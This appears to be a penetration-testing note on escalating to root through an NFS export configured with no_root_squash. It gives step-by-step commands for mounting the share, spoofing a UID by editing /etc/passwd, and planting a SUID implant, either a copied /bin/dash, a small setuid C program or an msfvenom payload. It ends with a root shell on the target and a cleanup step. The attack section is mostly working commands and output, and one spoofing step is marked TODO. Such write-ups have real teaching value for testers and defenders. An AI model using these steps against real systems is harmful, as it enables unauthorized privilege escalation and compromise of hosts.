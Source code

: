 # Living off the Land

## 01 - Detect

Files were made with NFS that derives the user's ID. If the user is `root`, and **root squashing** is enabled, the ID will instead be set to the `nobody` user. Whatever we have enumerated the server through active fingerprint (go to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/File Server/NFS|NFS enumeration phase]] section to learn the practical methods) or we have compromised the Linux machine with least privileges.

Let's see the NFS configuration in the `/etc/exports`.

```
$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Looks like the `/tmp` directory has `no_root_squash` enabled. Through the attacker's machine we have run as `root` and create a directory to mount point the NFS server.

## 02 - Exploit

Mount the **Network File System (NFS)** from the vulnerable Linux systme

```
userware@hackware-os:~$ sudo su
root@hackware-os:~# mkdir /mnt/nfs
root@hackware-os:~# mount -o rw,vers=2 <IP>:</directory_name> /mnt/nfs
```

### 2.1 - Spoof User ID

TODO: Fill in the missing steps when spoofing the UID.

```
root@hackware-os:~# ls -l /mnt/nfs/

root@hackware-os:~# useradd -m nfsuser -s /bin/bash

root@hackware-os:~# grep <nfs_user_UID> /etc/passwd
```

The syntax as it shows.

```
root@hackware-os:~# sed -ie 's/<current_user_UID>/<target_UID_to_spoof>/g' /etc/passwd
```

Spoof the UID.

```
root@hackware-os:~# sed -ie 's/1001/1014/g' /etc/passwd
```

Switch user account then read the file.

```
root@hackware-os:~# su nfsuser

nfsuser@hackware-os:~$ id

nfsuser@hackware-os:~$ cat /mnt/nfs/file.txt
```

### 2.2 - Copy Unix Shell Prompt

We can just copy the POSIX shell prompt (`/bin/dash`) to the target.

```
root@hackware-os:~# cp /bin/dash /mnt/nfs/implant

root@hackware-os:~# chmod +xs /mnt/nfs/implant
```

### 2.3 - Copy Implant

We can compile our binary in C language using the previous technique about taking advantage of the Cron Job to execute a SUID `/bin/bash`.

```
root@hackware-os:~# cat implant.c
int main() {
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
root@hackware-os:~# gcc implant.c -o implant
```

We can either generate a `msfvenom` payload.

```
root@hackware-os:~# msfvenom -p linux/x86/exec cmd="/bin/bash -p" -f elf -o /mnt/nfs/implant
```

Change file permissions.

```
root@hackware-os:~# chmod +xs /mnt/nfs/implant
```

Now if we return to the compromised machine you can see it has a sticky bit of SUID that can be taken advantaged of all because of enabling the `no_root_squash` from the NFS configuration.

```
root@hackware-os:~# ls -lh /mnt/nfs/implant
-rwsr-sr-x 1 root root 16K Jan 21 20:29 /mnt/nfs/implant
```

Now if we check on the compromised target side we can see our shell that has been successfully copied via root

```
$ ls -lh /home/ubuntu/sharedfolder/
total 16K
-rwsr-sr-x 1 root root 16K Jan 22 01:29 implant
$ /home/ubuntu/sharedfolder/implant -p
# whoami
root
```

## 03 - Cleanup

```
# exit
$ whoami
user

root@hackware-os:~# rm /mnt/nfs/implant
root@hackware-os:~# umount /mnt/nfs
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/A - Information Gathering/0x02 - Active Fingerprinting/Network Ports/Cross Platform/File Server/NFS|Active Fingerprinting: NFS Network Protocol]]

### Hacktricks

- [Hacktricks: NFS no_root_squash/no_all_squash misconfiguration PE](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe.html)